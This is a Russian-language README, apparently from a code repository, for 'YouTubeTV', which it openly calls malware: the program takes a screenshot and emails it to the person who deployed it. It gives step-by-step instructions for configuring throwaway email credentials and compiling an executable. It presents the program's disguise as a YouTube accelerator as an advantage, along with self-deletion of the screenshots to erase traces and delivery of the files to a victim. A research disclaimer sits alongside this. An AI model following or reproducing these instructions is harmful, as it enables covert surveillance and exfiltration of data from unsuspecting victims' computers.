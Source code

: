 <h1>YouTubeTV</h1>

YouTubeTV — вредоносная программа для создания снимков экрана и их отправки на Вашу электронную почту. 

<h2>Использование</h2>

Программа создана исключительно в исследовательских целях кибербезопасности, а также для тестирования антивирусных программ. Автор не несёт ответственность за использование программ другими людьми, и (или) в каких-либо злоумышленных целях. Использование и (или) распространение данного программного обеспечения в злоумышленных целях определяет "УК РФ Статья 273. Создание, использование и распространение вредоносных компьютерных программ".

Пример использования: https://youtu.be/

1. Скачайте из релиза (Releases) файлы "default.env", "YouTubeTV.py" и "YouTubeTV.png". Исполняемого файла нет, т. к. он не подойдёт для Вашего пользования. Далее описана инструкция для создания исполняемого файла для Вас.
2. Запустите "YouTubeTV.py" в любой удобной для Вас среде разработки, можно даже в Блокноте. В участке кода "Основная функция" запишите Ваш ненужный (по возможности анонимный, без имён и фамилий) адрес электронной почты. В учатске кода "Функция для отправки письма с вложением" в строке "with smtplib.SMTP_SSL('smtp.mail.ru', 465) as smtp:" запишите SMTP-сервер сервиса Вашего почтового ящика (его можно легко узнать в Интернете). Сохраните файл.
3. Запустите файл "default.env" в Блокноте и запишите Ваши учётные данные (логин и пароль) от Вашей электронной почты, указанной в пункте 2 (в основном коде программы). Сохраните файл.
4. Установите (если ранее этого не делали) "Python" отсюда: https://www.python.org/downloads/windows/.
5. Затем файлы "default.env" и "YouTubeTV.py" лучше поместить в корневую папку установленного "Python", как правило это "C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312".
6. Запустите командную строку "Windows" ("cmd") и введите команду для установки библиотеки создания (компиляции) программ "pip install pyinstaller" (все команды вводятся без кавычек!).
7. В командной строке "Windows" ("cmd") перейдите в директорию (папку) только что сохранённых файлов (проекта) командой "cd C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312".
8. Перенесите файл "YouTubeTV.png" на Рабочий стол. В командной строке "Windows" ("cmd"), находясь в указанной ранее директории (папке), пропишите команду для создания программы: "pyinstaller -F -i "C:\Users\\*Имя пользователя системы*\Desktop\YouTubeTV.png" YouTubeTV.py" (здесь путь до изображения прописывается в кавычках!). Если вдруг не создалась иконка, то переведите её в формат ".ico" здесь: https://convertio.co/ru/png-ico/ и попробуйте скомпилировать заново.
9. Дождитесь длительного процесса создания файла. После "70706 INFO: Building EXE from EXE-00.toc completed successfully." программу формата ".exe" можно будет найти в "C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312\dist".
10. Поместите файлы "default.env" и "YouTubeTV.exe" в одну директорию (папку), например на Рабочий стол. В противном случае, программа работать не будет, предупредив уведомлением об ошибке.
11. Запустите "YouTubeTV.exe" и дождитесь длительной загрузки программы. В случае слов "YouTube ускорен!" снимок Вашего экрана будет создан, сохранён в этой же директории и отправлен на Вашу электронную почту в виде письма самому себе. Не забудьте о том, что Вы обязательно должны быть подключены к Интернету. Через некоторое время снимок экрана с данной директории самоуничтожится, для удаления следов компрометации и сохранения памяти для устройства. В случае ошибок пересмотрите пункты, начиная со 2, проверьте, верно ли введены данные в файле "YouTubeTV.py" (SMTP-сервер сервиса и Ваш адрес почты) "default.env" (данные авторизации).
12. Таким образом, созданные файлы могут быть доставлены к атакуемой жертве, например, в корень диска, что делать категорически запрещено согласно "УК РФ Статья 273. Создание, использование и распространение вредоносных компьютерных программ": https://www.consultant.ru/document/cons_doc_LAW_10699/a4d58c1af8677d94b4fc8987c71b131f10476a76/.

<h2>Преимущества, недостатки и особенности</h2>

Преимущества программы:
1. Работоспособность.
2. Минимальное заимствование сторонних библиотек.
3. Маскировка программы под ускоритель YouTube, что актуально в условиях его блокировки.
4. Весь проект содержится в двух файлах форматов "*.exe" и ".env", что позволяет легко его запускать, распространять, а также делиться.
5. Простота, стиль и читабельность кода.

Недостатки программы:
1. Очень длительная загрузка программы и возможные зависания компьютера.
2. Отсутствие маскировки и запутывания (обфускации) вредоносного кода.
3. Программа не работает в скрытом режиме, а только при запуске.
4. Помимо доставки исполняемого файла также необходима доставка файла окружения "default.env", чтобы снимок экрана дошёл до Вас, что потребует дополнительных условностей перед атакуемой жертвой.
5. В файле "default.env" должны находиться Ваши учётные данные, поэтому необходимо использование ненужной (по возможности анонимной, без имён и фамилий) электронной почты.
6. Увидев содержимое файла "default.env" жертва может зайти в Вашу электронную почту.
7. Минимальная функциональность.

(С) Емельянов Григорий Андреевич. Все права защищены. Использование (копирование, сбор, обработка, хранение и распространение) кода программы и программы без указания автора запрещено.
